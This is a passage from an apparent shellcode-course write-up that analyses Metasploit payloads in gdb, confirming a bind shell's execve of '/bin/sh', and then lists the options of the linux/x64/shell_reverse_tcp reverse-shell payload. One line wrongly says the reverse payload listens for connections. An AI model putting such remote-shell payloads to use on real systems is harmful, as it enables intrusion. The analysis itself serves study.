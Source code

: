 ```shell
es             0x0	0
fs             0x0	0
gs             0x0	0
```

The syscall with number `59` (`RAX` register) is `execve`. It takes 3 arguments (`filename`, `argv[]` and `envp[]`) that are located in `RDI`, `RSI` and `RDX` respectively. `RDI` has the value `0x7fffffffdb98` because it is the memory address for the program to run, which is "/bin/sh". We can examine that memory location as a string to verify that.

```shell
(gdb) x/s 0x7fffffffdb98
0x7fffffffdb98:	"/bin/sh"
```

`RSI` has the value `0x7fffffffdb88` because it points to the memory location of the string "/bin/sh". `RDX` has the value `0` because there isn't an array of strings that is passed as environment to the new program.

The analysis of the `linux/x64/shell_bind_tcp` payload is over and the shellcode is working!

## linux/x64/shell_reverse_tcp {#reverse}

The payload `linux/x64/shell_reverse_tcp` is used to listen for a connection and spawn a command shell.

The next command shows the available options for this payload:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/5_Msfvenom_payloads/3_reverse$ msfvenom -p linux/x64/shell_reverse_tcp --list-options
Options for payload/linux/x64/shell_reverse_tcp:
=========================


       Name: Linux Command Shell, Reverse TCP Inline
     Module: payload/linux/x64/shell_reverse_tcp
   Platform: Linux
       Arch: x64
Needs Admin: No
 Total size: 74
       Rank: Normal

Provided by:
    ricky

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
LHOST                   yes       The listen address (an interface may be specified)
LPORT  4444             yes       The listen port

Description:
    Connect back to attacker and spawn a command shell



Advanced options for payload/linux/x64/shell_reverse_tcp:
=========================

    Name                        Current Setting  Required  Description
    ----                        ---------------  --------  -----------
    AppendExit                  false            no        Append a stub that executes the exit(0) system call
    AutoRunScript                                no        A script to run automatically on session creation.
```